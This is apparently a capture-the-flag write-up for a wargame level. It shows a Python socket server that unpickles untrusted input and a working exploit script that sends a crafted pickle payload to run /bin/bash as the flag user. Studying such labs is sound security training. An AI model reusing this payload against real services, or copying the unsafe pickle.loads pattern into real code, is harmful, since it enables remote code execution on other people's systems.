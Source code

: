 ## Level 17

> There is a python script listening on port 10007 that contains a vulnerability.

```python
#!/usr/bin/python

import os
import pickle
import time
import socket
import signal

signal.signal(signal.SIGCHLD, signal.SIG_IGN)

def server(skt):
  line = skt.recv(1024)

  obj = pickle.loads(line)

  for i in obj:
    clnt.send("why did you send me " + i + "?\n")

skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
skt.bind(('0.0.0.0', 10007))
skt.listen(10)

while True:
  clnt, addr = skt.accept()

  if(os.fork() == 0):
    clnt.send("Accepted connection from %s:%d" % (addr[0], addr[1]))
    server(clnt)
    exit(1)
```

Here pickle provides us with the possibility of an exploit to run our own code. There's lots to read on the security issues with pickle, but to be fair it was never meant to be secure in itself. \[BH_US_11_Slaviero_Sour_Pickles_WP.pdf\](<https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_WP.pdf>) and [BH_US_11_Slaviero_Sour_Pickles_Slides.pdf](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf) are a good source for more info.

Right, so my plan is to get a shell as _flag17_ and get the flag from there. Using pickle's opcodes I can construct a string that will run `getflag` from the `pickle.loads` call as user _flag17_. So before I started constructing this I copied the script and ran it as _level17_ on a different port in order to debug and see what's going on. Once I was happy with my exploit code I changed the port to `10007` and ran it to get the flag.

```python
#!/bin/python
import socket

skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
skt.connect(('localhost', 10007))
print skt
data = skt.recv(1024)
print data
sent = skt.send("cos\nsystem\n(S'/bin/bash -c /bin/getflag > /tmp/f17pwned'\ntR\n")
print sent
data = skt.recv(1024)
print data
skt.close()
```
